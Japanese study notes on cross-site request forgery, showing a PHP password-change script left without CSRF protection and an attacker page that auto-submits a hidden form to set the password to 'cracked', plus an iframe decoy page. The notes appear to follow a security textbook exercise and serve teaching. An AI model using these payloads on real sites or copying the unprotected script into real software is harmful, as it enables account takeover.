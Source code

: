 * 45-003.php[パスワード変更実行]

```php
<?php
  function ex($s) { // XSS対策用のHTMLエスケープと表示関数
    echo htmlspecialchars($s, ENT_COMPAT, 'UTF-8');
  }
  session_start();
  $id = @$_SESSION['id']; // ユーザIDの取り出し
  // ログイン確認…省略
  $pwd = filter_input(INPUT_POST, 'pwd');   // パスワードの取得
  // パスワード変更処理　ユーザ$idのパスワードを$pwdに変更する
?>
<body>
<?php ex($id); ?>さんのパスワードを<?php ex($pwd); ?>に変更しました
</body>
```

上記は、以下の条件を満たすことでパスワード変更ができる

* POSTメソッドで45-003.phpがリクエストされること
* ログイン状態であること
* POSTパラメータpwdとしてパスワードが指定されていること

上記の条件を満たしたリクエストを送信する攻撃がCSRF攻撃。

45-900.html

```html
<body onload="document.forms[0].submit()">
<form action="http://example.jp/45/45-003.php" method="POST">
<input type="hidden" name="pwd" value="cracked">
</form>
</body>
```

* onload = document.forms[0].submit()

  →ドキュメントの一番最初のformsをsubmitするという指示。このHTMLが呼ばれると即座に45-003.phpが実行される

* 45-901.html(iframeを利用)

  ```html
  <body>
  激安商品情報（カムフラージュ用コンテンツ）<br>
  <iframe height="100" src="45-900.html"></iframe>
  </body>
  ```

  

#### 確認画面がある場合のCSRF

* hiddenパラメータでパラメータ受け渡ししている場合

* セッション変数によりパラメータ受け渡ししている場合

  ２段階でiframeを用意し攻撃する。POSTリクエストと実行

#### ファイルアップロードフォームでのCSRF
